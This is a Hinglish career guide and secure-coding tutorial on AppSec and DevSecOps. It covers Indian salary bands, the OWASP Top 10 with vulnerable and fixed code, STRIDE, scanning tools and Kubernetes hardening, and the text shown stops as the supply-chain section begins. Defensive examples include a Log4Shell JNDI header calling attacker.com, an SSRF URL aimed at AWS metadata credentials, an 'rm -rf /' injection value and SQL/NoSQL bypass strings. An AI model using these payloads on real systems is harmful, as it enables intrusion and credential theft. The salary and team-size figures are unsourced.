



# DevSecOps + AppSec — Highest-Paid, Lowest-Supply Track in Indian Tech

AppSec / DevSecOps wo track hai jo placements ke time pe har koi miss kar deta hai — DSA + CP + system design ki race mein "security" ek soft elective lagta hai. Reality? 2026 mein ek decent AppSec engineer ki demand-supply ratio India mein **10:1** hai. Razorpay ka RZP-Sec team year-round hire karta hai, Cred ka security team payments fraud ke against farm-level reviews karta hai, HDFC Tech aur Goldman Sachs Bangalore freshers ko **18-30 LPA** offer kar dete hain agar tu Burp Suite, Semgrep, aur OWASP Top 10 *production-level* explain kar de. Mid-career engineers (3-7 yrs) seedhe **45-100 LPA** band mein bait jaate hain — Wells Fargo Tech, Atlassian Bangalore, Stripe India, ServiceNow.

Wajah simple hai: security ek "knowledge-deep" field hai. Ek RCE (Remote Code Execution) vulnerability ek payment gateway pe nikal aaye, company ka quarterly compliance audit barbaad. Ek SSRF (Server-Side Request Forgery) cloud metadata endpoint hit kar le, IAM role steal ho jaaye, aur AWS bill ek raat mein crore mein chala jaaye. Yeh log hire karte hain. Aur yeh log ICs (Individual Contributors) ko 70-80 LPA pe rakhte hain bina manager bane.

> **Reader profile:** 3rd/4th-year engineering student going into placements + early-career SDE/SRE/QA jo AppSec mein pivot karna chahte hain. Tu basic web (HTTP, REST), basic Linux, aur ek scripting language (Python/JS) jaanta hai. DSA strong nahi bhi hua toh chalega — AppSec interview mein DSA secondary hai, *vulnerability articulation* primary hai.

Chai pakad, Burp Suite proxy on kar, chalte hain.

---

## 1. Why AppSec / DevSecOps as a career

### 1.1 The salary truth — band by band

Pehle numbers, taaki motivation set ho jaaye. Yeh 2025-26 hiring data hai (Glassdoor + LinkedIn Salary + back-channels):

| Experience | Band | Companies |
|------------|------|-----------|
| Fresher (campus) | 18-30 LPA | Razorpay RZP-Sec, Cred Security, Goldman Sachs India, Wells Fargo Tech, Atlassian |
| Fresher (off-campus, GitHub portfolio + 1 CVE) | 25-45 LPA | Stripe India, HackerOne, Bugcrowd India, ServiceNow, Salesforce |
| 1-3 yrs | 28-55 LPA | All above + Microsoft India Defender, Palo Alto, CrowdStrike India |
| 3-7 yrs | 45-100 LPA | Senior IC tracks at all FAANG India + financial cos |
| Principal / Staff | 1.2-2.5 Cr | Google India Security, Microsoft Defender Research, AWS Security |

Why so high? Because financial regulators (RBI, SEBI), CERT-In, and global bodies (PCI-DSS for payments) **legally mandate** dedicated security teams. Razorpay processes ~1 trillion INR annually — ek breach = license revoke risk. So the team isn't "nice to have" — it's a board-mandated cost center that pays IC salaries to keep the lights on.

### 1.2 Indian product co AppSec teams — the inside view

- **Razorpay RZP-Sec:** ~40 engineers, split into AppSec (code review, threat modelling), Cloud Security (AWS hardening), Red Team (internal pentest), and Detection & Response. Hire bar — explain Log4Shell exploitation chain end-to-end.
- **Cred Security:** Smaller team (~15), but very deep on payments fraud, mobile app security (Android tamper detection), and supply-chain. Hire bar — read a Frida hook script and explain.
- **Zerodha:** ~10 person team, very deep on regulatory (SEBI compliance), trading platform security. Hire bar — explain why client-side encryption is theatre for trading orders.
- **HDFC Tech:** Bigger (~100+), split into AppSec, IAM, Cloud Sec, GRC. Hire bar — banking compliance + OWASP.
- **Goldman Sachs India (Bangalore + Hyderabad):** ~300+ across security disciplines, very deep on cryptography, secure SDLC, supply-chain. Highest pay band. Hire bar — formal threat modelling + STRIDE.
- **Wells Fargo Tech (Hyderabad + Bangalore):** Massive (~500+ India security org), hires freshers in cohorts. Bar lower than GS but band still 22-30 LPA fresher.

### 1.3 The 10:1 demand-supply imbalance

Indian engineering colleges **don't teach security**. CSE syllabi 2026 mein still "Cryptography" ke 2 chapters jo RSA aur DES tak rukte hain. OWASP Top 10 nahi padhaaya jaata. Burp Suite koi assignment nahi. Result: 1.5M CS grads/year, but maybe 2000-3000 jo `XSS payload` aur `SSRF metadata endpoint` confidently bol sakein. Companies poach kar rahe hain har quarter.

### 1.4 Pivot paths — SDE / SRE / QA → AppSec

Yeh actually achievable hai 6-12 months mein agar tu structured chale:

- **SDE → AppSec:** Tu code padhna jaanta hai. Bas Semgrep, CodeQL, secure coding patterns add kar. Burp Suite + PortSwigger Web Security Academy (free) 3 months daily. Resume mein 2-3 CTF writeups + 1 responsible disclosure (HackerOne / Bugcrowd) — interviews aane lagenge.
- **SRE → DevSecOps / Cloud Security:** Tu pipelines jaanta hai. Bas Trivy, gitleaks, OPA/Conftest add kar. AWS IAM deep dive + AWS Security Specialty cert. GitHub Actions security hardening project resume mein.
- **QA → AppSec (the easiest pivot):** Tu already adversarial mindset rakhta hai — "kahan toot sakta hai." Bas tooling + OWASP map. Burp + ZAP + 1 CVE on a small open-source project — done.

Khaas baat — AppSec mein "fresh grad with portfolio" > "fresh grad from IIT". Companies portfolio dekhti hain: HackerOne profile, Hall of Fame entries, CVE assignments, public CTF writeups. Yeh DSA leetcode count se zyada weight rakhta hai.

---

## 2. OWASP Top 10 (2021) — the canonical bug catalog

OWASP (Open Web Application Security Project) ek non-profit hai jo har 3-4 saal mein "Top 10 web app vulnerabilities" publish karta hai. 2021 ka latest hai (2025 draft mein leaked but not finalized). Har AppSec interview mein **A01-A10 by name + 1 example each** ratta-style poocha jaata hai. Iske aage tujhe **at least 3** ke worked exploit explain karna aana chahiye.

### 2.1 A01: Broken Access Control

Sabse common — har 2 mein 1 web app yahaan toot ta hai. Idea simple: backend assume kar leta hai ki "agar UI button hide kar diya, user nahi click kar payega." Reality — attacker UI bypass karke direct API hit karta hai.

**Worked example — IDOR (Insecure Direct Object Reference):**

Razorpay-style invoice download endpoint. User Alice apni invoice dekhna chahti hai:

```
GET /api/v1/invoices/12345
Authorization: Bearer alice_token
```

Backend code (vulnerable):

```python
# VULNERABLE
@app.get("/api/v1/invoices/{invoice_id}")
def get_invoice(invoice_id: int, user=Depends(auth)):
    return db.invoices.find_one({"id": invoice_id})
    # Missing: check if invoice.owner_id == user.id
```

Attacker change karega `12345` ko `12346` — Bob ki invoice mil jayegi. Multi-tenant payments ka classic IDOR.

**Fixed pattern:**

```python
# FIXED
@app.get("/api/v1/invoices/{invoice_id}")
def get_invoice(invoice_id: int, user=Depends(auth)):
    invoice = db.invoices.find_one({"id": invoice_id})
    if not invoice or invoice["owner_id"] != user.id:
        raise HTTPException(404)  # Not 403 — don't leak existence
    return invoice
```

**Privilege escalation variants:**
- Vertical: regular user → admin (changing role param in JWT, mass-assignment)
- Horizontal: user A → user B (IDOR above)
- Force browsing: `/admin/users` direct URL — UI nahi dikhata, backend allow kar deta hai

**CWE:** CWE-285 (improper authorization), CWE-639 (authorization bypass through user-controlled key).

### 2.2 A02: Cryptographic Failures

Pehle isko "Sensitive Data Exposure" kehte the. Ab "Cryptographic Failures" — root cause hai weak / missing / misused crypto.

**Common mistakes:**
- Passwords stored as MD5 / SHA-1 (Razorpay competitor jisme breach hua, MD5 use kar raha tha)
- Plaintext PAN / Aadhaar in DB (PCI-DSS / DPDP Act violation)
- HTTP instead of HTTPS for sensitive flows
- Self-signed cert with no validation (`verify=False` in Python requests)
- ECB mode block cipher (penguin meme — tu Google kar le)
- Hardcoded crypto keys in source (`AES_KEY = "supersecret123"`)

**Vulnerable Java:**

```java
// VULNERABLE — MD5 for passwords
String hash = DigestUtils.md5Hex(password);
```

**Fixed:**

```java
// FIXED — bcrypt with cost 12
String hash = BCrypt.hashpw(password, BCrypt.gensalt(12));
```

Use **bcrypt / scrypt / Argon2** for password hashing — slow, salted, GPU-resistant. Argon2id is current state-of-art (winner of Password Hashing Competition 2015).

For data at rest: AES-256-GCM (authenticated encryption). For TLS: TLS 1.3 only, disable 1.0/1.1.

### 2.3 A03: Injection

SQL injection (SQLi), NoSQL injection, OS command injection, LDAP injection, XPath injection — same root cause: **untrusted input concatenated into a query.**

**SQL Injection — vulnerable Python:**

```python
# VULNERABLE
cursor.execute(f"SELECT * FROM users WHERE email = '{email}'")
# Attacker email = "x' OR '1'='1" → returns all users
```

**Fixed (parameterized query):**

```python
# FIXED
cursor.execute("SELECT * FROM users WHERE email = %s", (email,))
```

**NoSQL injection — MongoDB:**

```javascript
// VULNERABLE — Express + Mongoose
User.findOne({ email: req.body.email, password: req.body.password });
// Attacker sends: { email: {"$ne": null}, password: {"$ne": null} }
// Returns first user — auth bypass
```

**Fixed:**

```javascript
// FIXED — coerce to string + use bcrypt compare
const email = String(req.body.email);
const password = String(req.body.password);
const user = await User.findOne({ email });
if (!user || !(await bcrypt.compare(password, user.passwordHash))) {
  throw new Error("invalid credentials");
}
```

**OS Command injection — Node.js:**

```javascript
// VULNERABLE
exec(`convert ${userFile} output.png`);  // userFile = "a; rm -rf /"
```

```javascript
// FIXED — execFile + array args, no shell
execFile("convert", [userFile, "output.png"]);
```

**LDAP injection** mostly relevant in enterprise SSO (Active Directory). Sanitize special chars `()*\` etc., or use parameterized LDAP libraries.

### 2.4 A04: Insecure Design — threat modelling intro

Yeh OWASP 2021 mein **naya** add hua. Idea: kuch flaws code-level fix nahi ho sakte — design hi galat hai. Example: "forgot password" flow jo SMS OTP pe rely karta hai bina rate limiting — attacker SIM swap karke account le sakta hai. Code review mein nahi pakda jaayega; design phase mein threat modelling karna padega.

Threat modelling tu **STRIDE** framework se karega — section 3 mein detail. Key idea: pre-implementation pe sit karke "attacker kahan se aayega" map karna.

### 2.5 A05: Security Misconfiguration

Default passwords, debug endpoints exposed, unnecessary services running, verbose error messages.

**Common production misconfigs:**
- AWS S3 bucket public-read on user data (Twitter India 2021 leak)
- `.env` file deployed to production webroot (`https://app.com/.env` returns secrets)
- Spring Boot Actuator endpoints (`/actuator/env`, `/actuator/heapdump`) exposed without auth
- Django `DEBUG=True` in production — full stack traces, settings leaked
- Default Jenkins / Kibana / MongoDB without auth bound to 0.0.0.0

**Fix:** Configuration as code + scanned via tools like `kube-bench`, `aws-config`, `prowler`.

### 2.6 A06: Vulnerable + Outdated Components — Log4Shell case study

**CVE-2021-44228** — December 9, 2021, the day every infosec team in the world cancelled their weekend plans.

**The bug:** Apache Log4j 2.x library mein `${jndi:ldap://...}` lookup syntax tha. Attacker agar koi string log karwa de jisme yeh syntax ho — for example User-Agent header — Log4j JNDI call kar deta tha attacker-controlled LDAP server pe, jo malicious Java class return karta tha, which Log4j **deserialize and execute** kar leta tha. Pure RCE.

```
User-Agent: ${jndi:ldap://attacker.com/Exploit}
```

CVSS 10.0 — perfect score. Internet pe almost har Java app affected — Minecraft servers, Tesla, Apple iCloud, AWS, Cloudflare. Indian banks ek raat mein WAF rules deploy karne lage. Log4j patch (2.17.0) push hua, fir 2.17.1 aur 2.17.2 — initial patches incomplete the.

**Lessons:**
- Track your dependencies — SBOM (Section 7).
- SCA tools (Section 4) catch known CVEs in your dependency tree.
- Defense-in-depth: even if you patch slow, WAF + egress filtering helped — JNDI call hi nahi gaya outbound, exploit fail.

### 2.7 A07: Identification + Authentication Failures

Pehle "Broken Authentication" tha. Includes credential stuffing, weak password policies, missing MFA, session fixation, JWT bugs, OAuth misconfigurations. JWT-specific pitfalls section 9 mein.

**Credential stuffing example:** Attacker ne 2019 Collection #1 leak (770M creds) le liya. Razorpay-style login pe `email:password` pairs try karta hai. 0.5% hit rate — laakhon accounts hijack. Defense: rate limiting, MFA, password breach API check (HIBP), CAPTCHA on suspicious patterns, device fingerprinting.

### 2.8 A08: Software + Data Integrity Failures

Supply chain attacks. Trusted update channel mein malicious code inject ho jaaye. Section 7 detailed.

Quick example: **Codecov bash uploader compromise (April 2021).** Attacker ne Codecov ka `codecov-bash` script modify kiya, env vars exfiltrate karne lage. Har CI pipeline jo `bash <(curl -s https://codecov.io/bash)` chala raha tha — secrets leak. **Lesson:** *never* `curl | bash` from third-party. Pin checksums.

### 2.9 A09: Security Logging + Monitoring Failures

Agar tu attack detect nahi kar sakta, breach 200 din chal sakta hai (Mandiant M-Trends 2024 — median dwell time 10 days globally, 30+ days for unsophisticated victims).

**What to log:**
- Auth events (login success/fail, MFA challenges, password resets)
- Authorization failures (403s)
- Admin actions
- Privilege changes
- Outgoing API calls (esp. to external metadata endpoints — SSRF detection)

**What NOT to log:** Passwords (even hashed), JWTs, full PII. Twitter 2018 logged plaintext passwords accidentally — global rotation forced.

**Stack:** Centralized log aggregation (ELK / Splunk / Datadog), SIEM rules, alerts on anomalies. Section 10 IR ke saath tie hota hai.

### 2.10 A10: Server-Side Request Forgery (SSRF)

Tera backend attacker-controlled URL pe outbound request maar deta hai.

**Vulnerable Node.js:**

```javascript
// VULNERABLE — image proxy
app.get("/proxy", async (req, res) => {
  const response = await fetch(req.query.url);
  res.send(await response.buffer());
});
```

Attacker hit karta hai: `/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`

Yeh AWS EC2 metadata endpoint hai — IMDSv1 mein bina auth ke IAM role credentials return kar deta hai. Attacker tera IAM role steal kar leta hai, S3 dump kar deta hai. **Capital One 2019 breach** — exactly yahi pattern, 100M customer records leaked. CVSS 9.8.

**Fix:**
- Whitelist destination domains
- Block private IP ranges (169.254/16, 10/8, 192.168/16, 172.16/12, 127/8)
- Use IMDSv2 (token-based) on EC2
- Egress firewall rules at VPC level

```javascript
// FIXED — strict allowlist + IP check
const ALLOWED = new Set(["images.example.com", "cdn.example.com"]);
app.get("/proxy", async (req, res) => {
  const u = new URL(req.query.url);
  if (!ALLOWED.has(u.hostname)) return res.sendStatus(400);
  // Resolve and check IP isn't private
  const { address } = await dns.lookup(u.hostname);
  if (isPrivateIP(address)) return res.sendStatus(400);
  // ...
});
```

---

## 3. Threat modelling — STRIDE

Threat modelling mein design phase pe ek system ko attacker ke lens se dekhna hota hai. STRIDE — Microsoft 1999 — sabse practical framework hai. Har letter ek threat category:

| Letter | Threat | Property violated | Example |
|--------|--------|-------------------|---------|
| **S** | Spoofing | Authentication | Attacker pretends to be Alice |
| **T** | Tampering | Integrity | Modify request mid-flight |
| **R** | Repudiation | Non-repudiation | "I never authorized that payment" |
| **I** | Information disclosure | Confidentiality | DB dump, S3 leak |
| **D** | Denial of Service | Availability | Flood the endpoint |
| **E** | Elevation of privilege | Authorization | User → admin |

### 3.1 The threat modelling process — 4 questions

Adam Shostack (Microsoft, "Threat Modeling: Designing for Security") frames it as 4 questions:

1. **What are we building?** → Data flow diagram (DFD)
2. **What can go wrong?** → Apply STRIDE to each element
3. **What are we going to do about it?** → Mitigations
4. **Did we do a good job?** → Review + iterate

### 3.2 Worked example — Razorpay-style payment flow

**System under threat-model:** Merchant checkout → Razorpay-style payment gateway → Bank.

**Components:**
- Merchant frontend (browser)
- Razorpay checkout iframe
- Razorpay backend API
- Database (orders, payments)
- Bank acquirer network (HDFC, ICICI APIs)
- Webhook to merchant backend

**Data flow diagram:**



**Trust boundaries:** Trust boundary wo line hai jahan trust level change hota hai. Crossing a boundary = sanitize, authenticate, log.

**STRIDE applied:**

| Element | Threat | Mitigation |
|---------|--------|------------|
| User → Merchant Frontend | **S**: phishing site impersonating merchant | EV cert, brand trust, anti-phishing on Razorpay's side |
| Merchant Frontend → RB | **T**: tampered amount in JS | Server-side amount verification via order_id; never trust client |
| RB → DB | **I**: SQLi reading other merchants' data | Parameterized queries, multi-tenant isolation, encryption at rest |
| RB → Bank | **R**: bank denies receiving the auth | Signed messages (mTLS + HMAC), append-only audit log |
| Webhook to Merchant | **S**: attacker forges webhook | HMAC signature with shared secret, replay nonce |
| All endpoints | **D**: payment endpoint flood | Rate limit per merchant key, per IP, per card, WAF, geo block |
| RB internal | **E**: low-priv service exfiltrates secrets | IAM least privilege, service-to-service mTLS, no shared secrets |

### 3.3 DREAD scoring (optional)

Once threats identified, prioritize. **DREAD** = Damage, Reproducibility, Exploitability, Affected users, Discoverability. Score each 1-10, average. High-DREAD = fix first. Modern teams use **CVSS 3.1** instead — industry standard, 0-10, vector strings (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`).

### 3.4 When to threat-model

- New feature design (before sprint planning)
- Major architecture change (new service, new data flow)
- After a security incident (lessons learned input)
- Annual review for high-risk systems (payments, auth, PII)

Don't threat-model every line of code — pick the chunky boundary-crossings.

---

## 4. SAST + DAST + SCA — the testing trio

Security testing in CI/CD ka triangle: **SAST** (code-level), **DAST** (running app), **SCA** (dependencies). Each catches different classes.

### 4.1 SAST — Static Application Security Testing

Source code analyze karta hai bina run kiye. Pattern matching + data flow + taint analysis.

**Tools:**
- **SonarQube:** OG enterprise tool, polyglot, decent OWASP coverage. Heavy.
- **Semgrep:** Modern, fast, rule-as-code (`yaml`). Free tier excellent. Most Indian DevSecOps teams default.
- **CodeQL (GitHub):** GitHub's powerful query language for code. Free for OSS, paid for private. Used to find Log4Shell-class bugs proactively.
- **Snyk Code:** Commercial, ML-augmented.
- **Bandit (Python only), Brakeman (Ruby), gosec (Go):** Language-specific.

**Semgrep rule example:**

```yaml
rules:
  - id: hardcoded-aws-key
    pattern: |
      AKIA$X
    message: Hardcoded AWS access key
    severity: ERROR
    languages: [python, javascript, java]
```

**What SAST catches well:** SQLi via string concat, hardcoded secrets, weak crypto (MD5, ECB), missing input validation, unsafe deserialization patterns.
**What SAST misses:** Runtime config issues, business logic flaws, IDOR (no way to know `owner_id` semantics from code), SSRF target IP.

### 4.2 DAST — Dynamic Application Security Testing

Running app pe attacks throw karta hai. Black-box.

**Tools:**
- **OWASP ZAP:** Free, scriptable, Selenium-driven baseline scan in CI works well.
- **Burp Suite:** Industry standard for manual pentest. Pro license ~₹35K/year. Active scanner finds XSS, SQLi, SSRF.
- **Nuclei (ProjectDiscovery):** Template-based, very fast, excellent for known-CVE checks.

**ZAP baseline in GitHub Actions:**

```yaml
- name: ZAP Baseline Scan
  uses: zaproxy/action-baseline@v0.10.0
  with:
    target: 'https://staging.example.com'
    fail_action: true
```

**What DAST catches well:** Reflected XSS, SQLi via boolean / time-based, SSRF (if you have a callback server), open redirects, CORS misconfigs, misconfigured TLS.
**What DAST misses:** Authenticated flows (need session), business logic, source-only patterns.

### 4.3 SCA — Software Composition Analysis

Dependencies ke vulnerabilities catch karta hai. Tu jis library pe `npm install` chala raha hai, uska kaunsa version vulnerable hai.

**Tools:**
- **Dependabot (GitHub native):** Free, automatic PRs to bump vulnerable deps. Works for npm, pip, maven, gradle, cargo, gomod.
- **Snyk:** Commercial, deeper coverage, license compliance bonus.
- **OWASP Dependency-Check:** Free, CLI-friendly, NVD-backed.
- **Trivy:** Free, fast, also does container + IaC scanning.

**Trivy SCA in CI:**

```yaml
- name: Trivy filesystem scan
  uses: aquasecurity/trivy-action@master
  with:
    scan-type: 'fs'
    scan-ref: '.'
    severity: 'CRITICAL,HIGH'
    exit-code: '1'
```

**What SCA catches:** Known CVEs in your dependency tree (Log4Shell, prototype pollution in lodash, etc.).
**What SCA misses:** Zero-days (by definition — not yet in NVD), your own first-party code bugs.

### 4.4 IAST + RASP — the newer cousins

- **IAST (Interactive AST):** Hybrid — agent runs inside the app, observes runtime + source. Contrast Security, Hdiv. Catches things SAST + DAST both miss.
- **RASP (Runtime Application Self-Protection):** Agent inside app blocks attacks at runtime. Defensive at runtime, not testing. Imperva, Sqreen.

Most Indian shops 2026 mein still SAST + DAST + SCA on, IAST/RASP rare.

### 4.5 CI integration pattern — "shift left"



Rule of thumb: **fail fast** — pre-commit catches secrets, PR catches SAST/SCA, post-deploy catches runtime issues. The earlier the catch, the cheaper the fix (10x rule).

### 4.6 What each catches — coverage matrix

| Vulnerability class | SAST | DAST | SCA | Manual pentest |
|---------------------|------|------|-----|----------------|
| SQLi (string concat) | Yes | Yes | No | Yes |
| IDOR | No | No | No | Yes |
| SSRF | Partial | Yes | No | Yes |
| Log4Shell-style CVE in dep | No | No | Yes | No |
| Hardcoded secret | Yes | No | No | Maybe |
| Weak crypto | Yes | No | No | Yes |
| XSS reflected | Partial | Yes | No | Yes |
| XSS stored (auth) | Partial | Partial | No | Yes |
| Auth bypass logic | No | Partial | No | Yes |
| Race condition | No | No | No | Yes |

**Conclusion:** No single tool. Use all three + manual pentest annually.

---

## 5. Secret scanning + management

Secrets in source = career-ending bug. AWS key in a public repo = ek raat mein bot crawler dhoondh leta hai, crore rupees ka bill aata hai (real Indian startup story — bohot hain).

### 5.1 Pre-commit hooks — catch before push

**gitleaks:**

```bash
# Install
brew install gitleaks
# Scan repo history
gitleaks detect --source . --verbose
# Pre-commit hook
gitleaks protect --staged
```

`.pre-commit-config.yaml`:

```yaml
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
```

**talisman:** Pre-push hook, similar idea. Indian product co Pivotal-origin tool.

**detect-secrets (Yelp):** Has nice baseline file mechanism — known secrets get whitelisted.

### 5.2 GitHub secret scanning

GitHub native — push protection blocks commits with detected secrets. AWS, GCP, Stripe, Slack, dozens of providers register patterns. **Free for public repos**, paid (Advanced Security) for private.

Push protection example:

```
remote: error: GH013: Repository rule violations found for refs/heads/main.
remote: - Push cannot contain secrets:
remote:   AWS Access Key ID — config.py:12
```

If a secret leaks anyway, the partner program **auto-rotates** — AWS, for example, gets notified and quarantines the key.

### 5.3 Secret stores — runtime delivery

Source mein secret nahi hona — runtime pe inject hona chahiye. Options:

- **HashiCorp Vault:** Industry standard, dynamic secrets (DB creds rotated per request), secret leasing, audit logs. Steep learning curve. Indian fintech (Razorpay, Cred) heavily use.
- **AWS Secrets Manager:** Native AWS, automatic rotation for RDS / Redshift / DocumentDB. Pricing: $0.40/secret/month.
- **AWS Parameter Store:** Cheaper alternative for non-secrets (config). Free tier generous.
- **GCP Secret Manager / Azure Key Vault:** Equivalent on other clouds.
- **Doppler / Infisical:** Modern dev-friendly SaaS / OSS alternatives.

**Vault dynamic secret example:**

```bash
# App requests fresh DB cred
$ vault read database/creds/myapp-role
Key                Value
---                -----
lease_id           database/creds/myapp-role/abc123
lease_duration     1h
username           v-myapp-xyz
password           A1b2C3d4...
```

App uses `username:password` for 1h. After lease expires, Vault revokes — DB user dropped. Compromised cred = useful for at most an hour.

### 5.4 Rotation strategies

- **Automatic rotation:** Vault dynamic secrets, AWS Secrets Manager Lambda rotation. Best.
- **Scheduled rotation:** Cron job rotates every 30/60/90 days. Fine for static keys.
- **Event-driven:** Rotate on employee departure, on detected leak, on cert near-expiry.

**Cert rotation:** Use cert-manager + Let's Encrypt for public, internal CA + short-lived certs (Vault PKI) for service mesh. Short = 24h-7d.

### 5.5 Kubernetes secrets — not really secret

K8s Secrets by default are **base64 encoded, not encrypted.** Stored plain in etcd. Anyone with `kubectl get secret -o yaml` access reads them.

**Mitigations:**
- Enable encryption at rest in etcd (Section 6)
- External Secrets Operator + Vault / Secrets Manager — secrets injected at pod start, never in etcd
- Sealed Secrets (Bitnami) — encrypt at GitOps time, controller decrypts in cluster
- SOPS (Mozilla) + age / KMS — encrypt YAML files, decrypt in CI

---

## 6. Container + Kubernetes security

Modern stacks containerized. Container security = image scanning + runtime hardening + K8s-level controls.

### 6.1 Image scanning

Build-time: scan Dockerfile, base image, installed packages for known CVEs.

**Trivy:**

```bash
trivy image --severity CRITICAL,HIGH myapp:1.2.3
```

**Snyk Container, Anchore Engine, Grype, Clair** — alternatives.

**Hardening Dockerfile checklist:**
- Use minimal base — `alpine`, `distroless`, `chainguard/static`. Smaller = fewer CVEs.
- Pin versions: `FROM node:20.11.1-alpine3.19@sha256:...` (digest pin).
- Run as non-root: `USER 1000:1000`.
- No SSH, no curl, no shell in production image (distroless).
- Multi-stage build — drop build tools.
- `.dockerignore` to keep secrets out.

**Vulnerable Dockerfile:**

```dockerfile
# VULNERABLE
FROM node:latest
WORKDIR /app
COPY . .
RUN npm install
EXPOSE 3000
CMD ["node", "server.js"]
# Runs as root, latest tag, includes .env, full distro
```

**Hardened:**

```dockerfile
# HARDENED
FROM node:20.11.1-alpine3.19 AS build
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production
COPY src/ ./src/

FROM gcr.io/distroless/nodejs20-debian12
WORKDIR /app
COPY --from=build /app /app
USER 1000:1000
EXPOSE 3000
CMD ["src/server.js"]
```

### 6.2 Pod Security Standards (PSS)

PSP (Pod Security Policies) deprecated in K8s 1.21, removed 1.25. Replaced by **Pod Security Standards** — three profiles enforced via admission controller:

| Profile | Rule | Use case |
|---------|------|----------|
| **Privileged** | Anything goes | System pods, kube-proxy |
| **Baseline** | Block known privilege escalations | Most workloads |
| **Restricted** | Hardened — no root, drop all caps, seccomp default | Production app pods |

Enable per namespace:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: prod-payments
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

For finer-grained policy, use **OPA Gatekeeper** or **Kyverno** — policy as code.

### 6.3 Network policies — default deny

K8s default mein **flat network**: every pod can talk to every pod. Disaster waiting.

**Default deny policy:**

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: prod-payments
spec:
  podSelector: {}
  policyTypes:
    - Ingress
    - Egress
```

Then allow specific:

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: api-from-frontend
  namespace: prod-payments
spec:
  podSelector:
    matchLabels:
      app: payments-api
  ingress:
    - from:
        - podSelector:
            matchLabels:
              app: frontend
      ports:
        - protocol: TCP
          port: 8080
```

Requires CNI plugin that supports them — Calico, Cilium, Weave (yes), flannel (no, by default).

### 6.4 RBAC — roles, role bindings, service accounts

Every pod gets a service account. Service account = K8s identity. RBAC controls what that identity can do via the K8s API.

**Least privilege service account:**

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: payments-api
  namespace: prod-payments
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: payments-reader
  namespace: prod-payments
rules:
  - apiGroups: [""]
    resources: ["configmaps"]
    resourceNames: ["payments-config"]
    verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: payments-api-reader
  namespace: prod-payments
subjects:
  - kind: ServiceAccount
    name: payments-api
roleRef:
  kind: Role
  name: payments-reader
  apiGroup: rbac.authorization.k8s.io
```

Pod can read **only** that one configmap. Kuch aur try kare → forbidden.

**Anti-pattern alert:** `cluster-admin` to default service account. Yeh attacker ko gold deta hai — RCE in any pod = cluster takeover.

### 6.5 Secrets in K8s — encryption at rest

Default: K8s Secrets stored in etcd as plaintext (base64 only). Anyone with etcd access reads them.

**Enable encryption at rest** — kube-apiserver flag:

```yaml
# /etc/kubernetes/encryption-config.yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
  - resources:
      - secrets
    providers:
      - aescbc:
          keys:
            - name: key1
              secret: <base64-32-byte-key>
      - identity: {}
```

Better: use a **KMS provider** (AWS KMS, Azure Key Vault, GCP KMS, HashiCorp Vault). Then encryption key never on disk.

The "encryption at rest debate": Encryption-at-rest only protects against etcd-disk theft. It does NOT protect against:
- A compromised pod with `kubectl get secrets` permission
- A compromised node with kubelet access
- A compromised K8s admin

So the *real* fix is RBAC + external secret stores + node hardening. Encryption-at-rest is the floor, not the ceiling.

### 6.6 Service mesh security — Istio, Linkerd

Service mesh = sidecar proxy in every pod, controls L7 traffic.

**Mutual TLS (mTLS) — automatic:**

```yaml
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: default
  namespace: prod-payments
spec:
  mtls:
    mode: STRICT
```

Every pod-to-pod call is now mTLS. Identity = SPIFFE ID. Stolen pod token = useless without the SPIFFE cert.

**Authorization policy:**

```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: payments-allow-frontend
spec:
  selector:
    matchLabels:
      app: payments-api
  rules:
    - from:
        - source:
            principals: ["cluster.local/ns/prod/sa/frontend"]
      to:
        - operation:
            methods: ["POST"]
            paths: ["/api/v1/charge"]
```

Linkerd — lighter, simpler, mTLS by default, Rust proxy. Istio — heavier, more features (traffic shifting, fault injection).

---

## 7. Supply chain security

Supply chain = sab kuch jo tera artifact build karne mein lagaya — source, deps, build tools, CI runners, registry, signing keys.

